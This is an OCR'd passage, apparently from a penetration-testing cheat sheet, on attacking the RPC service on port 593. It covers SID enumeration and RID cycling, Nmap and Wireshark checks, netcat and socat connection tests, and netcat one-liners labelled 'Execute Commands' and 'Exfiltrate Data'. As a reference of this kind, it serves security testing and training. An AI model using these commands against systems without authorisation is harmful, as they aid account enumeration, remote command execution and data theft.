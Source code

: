     ```bash
    Find SIDs by name: lookupnames <username>
    Find more SIDs: lsaenumsid
    RID cycling (check more SIDs): lookupsids <sid>
    ```

### Exploitation Tools

#### \[\[Metasploit]]

#### \[\[Wireshark]]

*   **Wireshark Packet Capture:**

    ```bash
    wireshark -i <interface> -f "tcp port 593"
    ```

#### \[\[Nmap]]

*   **Basic Nmap Scan:** Scan target on specified port to verify if service is on.

    ```bash
    nmap <target_ip> -p 593
    ```

#### \[\[NetCat]]

*   **Netcat TCP Connect:** Simple test to verify port service is running and responding.

    ```bash
    nc <target_ip> 593
    ```
*   **Netcat UDP Connect:** Simple test to verify port service is running and responding.

    ```bash
    nc <target_ip> 593 -u
    ```
*   **Execute Commands:** Execute commands on target.

    ```bash
    echo "<command>" | nc <target_ip> 593
    ```
*   **Exfiltrate Data:** Exfiltrate data over specified port.

    ```bash
    nc <target_ip> 593 < secret_data.txt
    ```

#### \[\[SoCat Cheat Sheet]]

*   **Socat TCP Connect:** Simple test to verify port service is running and responding.

    ```bash
    socat - TCP:<target_ip>:593
    ```
